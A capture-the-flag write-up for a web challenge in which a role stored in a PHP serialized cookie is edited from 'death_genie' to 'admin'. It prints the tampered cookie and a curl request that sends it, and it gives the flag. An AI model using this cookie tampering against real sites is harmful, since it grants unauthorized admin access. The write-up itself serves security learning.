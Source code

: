 # Yagami's Portfolio (400 points / 34 solves)

Ryuk has prohibited you from being able to view Light Yagami's Portfolio. To be able to do so, you need to have admin capabilities. You think you can figure out a workaround? Be careful...Its Ryuk we're talking about. He won't let you view any sort of information related to Light Yagami unless you are worthy. Prove your mettle and bypass his through his security checks. Should you be able to view Yagami's Portfolio, then I assure you, you will be very well rewarded and your efforts will not go in vain. All the very best!!

Ryuk is guarding the access to Yagami's Portfolio here at:

http://chall.ycfteam.in:4095/

## Overview

The challenge involves bypassing access controls set by Ryuk to view Light Yagami's portfolio. When accessing the provided URL, the server redirects to a denied.php page, indicating restricted access based on user roles. The goal is to manipulate the session or cookies to gain admin privileges and bypass the restrictions.

## Vulnerability

The web application uses a cookie to track user roles, specifically through the `user` cookie, which stores serialized PHP objects. By modifying the `role` field in the serialized `user` object from `death_genie` to `admin`, it is possible to escalate privileges and gain access to restricted pages.

## Solve

1) Initial Access: Visiting the challenge URL (http://chall.ycfteam.in:4095/) results in an immediate redirection to /denied.php.
2) Cookie Analysis: The browser stores a user cookie with serialized data:

`O:4:"User":2:{s:10:"\0User\0role";s:11:"death_genie";s:4:"name";s:4:"ryuk";}`

The role field contains death_genie, which likely has restricted access.

3) Cookie Modification: The cookie is modified, changing the role from death_genie to admin:

`O:4:"User":2:{s:10:"\0User\0role";s:5:"admin";s:4:"name";s:4:"ryuk";}`

Also, we use `s:5` instead of `s:11` is because `death_genie` is 11 chars long and `admin` is 5 chars long 😄

After URL encoding the modified cookie, we can send a curl request to the `/profile.php` endpoint:

`curl -i -b "PHPSESSID=29deb9c444ba74d75272ebae3733a80c; user=O%3A4%3A%22User%22%3A2%3A%7Bs%3A10%3A%22%00User%00role%22%3Bs%3A5%3A%22admin%22%3Bs%3A4%3A%22name%22%3Bs%3A4%3A%22ryuk%22%3B%7D" http://chall.ycfteam.in:4095/profile.php
`

`BsidesDehradun{n0t-s0_53cur3_53r1aliz4t10N_eH!}`
